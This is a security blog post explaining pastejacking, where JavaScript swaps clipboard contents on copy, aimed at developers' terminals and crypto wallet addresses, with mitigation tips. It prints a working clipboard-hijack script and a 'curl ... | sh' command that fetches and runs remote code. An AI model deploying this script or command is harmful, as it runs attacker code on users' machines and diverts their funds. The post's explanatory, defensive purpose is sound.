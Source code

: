 ```yaml
---
layout: post
title: 'Pastejacking Smart Contracts: Replacing Wallet Addresses to Steal Data'
categories: [blog]
tags: crypto cybersecurity
---
```


The last several years have brought incredible gains in the number of cyberattacks waged. These attacks entail a variety of exploits, with some using methods as simple as social engineering. Human behavior is often the weakest link, and a particular javascript exploit takes advantage of trust in a computer’s copy-and-paste functionality.  This form of attack, commonly referred to as [pastejacking](https://www.geeksforgeeks.org/what-is-pastejacking/), can fit into many different cyberattack campaigns. This attack takes advantage of one of the most common user interactions with a computer.

Pastejacking attacks exploit temporary storage memory by replacing copied data stored in device memory with different, often malicious, data. This exploit may take the form of a client-side or a server-side attack. 

Server-side pastejacking attacks may fit within a software supply chain attack: attackers can manipulate a compromised entity to attack downstream users or clients. 
Using methods such as [cross-site scripting (XSS) attacks](https://owasp.org/www-community/attacks/DOM_Based_XSS), an attacker can wage client-side pastejacking attacks, which can be especially effective if targeting developers. Cyberattacks waged on developers often have a high return on investment because capturing developer credentials affords an attacker a significant amount of lateral movement throughout an organization.

## How Javascript Pastejacking Works

For demonstration purposes, let’s take a look at the following Javascript code snippet:
```
<script>
document.getElementById('copied-text').addEventListener('copy', 
function(e) {
    e.clipboardData.setData('text/plain', 
        'curl https://forkbomb.io/shadowrealm | sh\n'
    );
    e.preventDefault();
});
</script>
```

Attackers may execute this code through various means; this attack may be waged on an organization through a form of code tampering or used on individual users through a client-side injection attack.

## Using Pastejacking to Attack Developers

Let’s say a junior programmer is attempting to utilize a code snippet from StackOverflow, which is not an unusual scenario that most software engineers have done at some point in their career. A malicious entity wages an attack against users trying to copy and paste a code snippet from the web browser into their terminal. 

The javascript function as defined above replaces the copied text within the clipboard, thus overriding the in-memory data and replacing it with:  
```
curl https://forkbomb.io/shadowrealm | sh\n
``` 
This string is a curl command that navigates a user to the URL [https://forkbomb.io/shadowrealm](https://forkbomb.io/shadowrealm/), which in this case is a striking yet graceful warning to users. 

Because the pasted snippet includes the string sh\n, the command runs immediately as if the user had manually pressed the return key, thus preventing a user from realizing what is happening until the attack is underway. 

This form of attack can be hazardous as this can be a form of [targeting developers](https://cycode.com/blog/why-developers-are-hackers-new-targets-and-what-to-do-about-it/) who often have elevated credentials. Malicious actors may use a pastejacking attack within systems that do not adhere to principles of least privilege. Developer credentials often allow escalated privileges to accelerate developer velocity. Allowing for greater access within a development ecosystem reduces security between components, thus permitting lateral movement that can give an attacker full access to an organization’s data. This can allow attackers to perform data exfiltration or leak source code; in either case, this will be devastating for an organization’s reputation and finances. 

## Using Pastejacking to Attack Crypto Wallets

More nefarious, if subtle, applications of this technique exist. Let’s consider crypto wallet addresses. These addresses are 26-35 characters long and consist of alphanumeric values. This address is often copied and pasted from one application to another to send crypto assets from one wallet to another. This copy and paste pattern provides a window of opportunity for attackers to wage a client-side injection attack utilizing such a script as defined above. 

Metamask is a popular crypto wallet commonly used for NFT transactions and blockchain applications. This wallet provides convenience to users by existing both in-browser and as a Google Chrome extension. One of the most convenient features is the fact that users can easily copy their crypto wallet address with a single click:

![pastejacking-crypto-wallets-forkbomb-address-theft-defi](../../../../../assets/image/pastejacking-crypto-wallets-forkbomb-address-theft-defi.png){:class="img-responsive"}

You can probably see where this is going. An insecure website, or nefarious browser extension, running this javascript copy-injection could hijack a user’s transaction by replacing the presented contract address text with another one, such as the attacker’s address, thus redirecting funds to their wallet permanently.

In the case of Metamask, tools such as [LavaMoat](https://github.com/LavaMoat/LavaMoat) are used to prevent software supply chain attacks from being deployed directly on its user base. However, as long as gaps within DevSecOps exist, attackers will find a way to wage attacks on users. Other means of attack, such as cross-site scripting attacks, are still viable pathways to reach individual users. 

## Preventing Crypto Theft 
As users of defi software, we are ultimaly responsible for our own financial safety. We advice several tips to mitigate the risk of crypto theft through pastejacking:
- Always visually inspect the transaction page in MetaMask, or your preferred client before running every transaction. 
- At least double/triple check the first 4 characters of the contract to see that they match up.
- Investigate suspicious contracts, especially if there is high outflow to another contract address.
- If you do a lot of business on ethereum, use services like ENS to map a trusted domain name to your contract address

Unfortunately if you have fallen victim to smart contract fraud, there is little recourse in remediation other than to continue using the platform using the guidance laid out in this post and exhibiting extreme caution when handling any amount of money/value you intend to preserve.

## Key Learnings for Defi Developers

Just like the early stages of Web 1.0 and Web 2.0, underscoring security and trust within Web 3.0 will be the key to its widespread adoption.  The authentication and origination benefits that wallets such as MetaMask provide are compelling, however, they must be implemented with security in mind. For decentralized service providers, steps need to be taken to prevent code tampering, avoid unsafe development prctices, and protect those using the service.

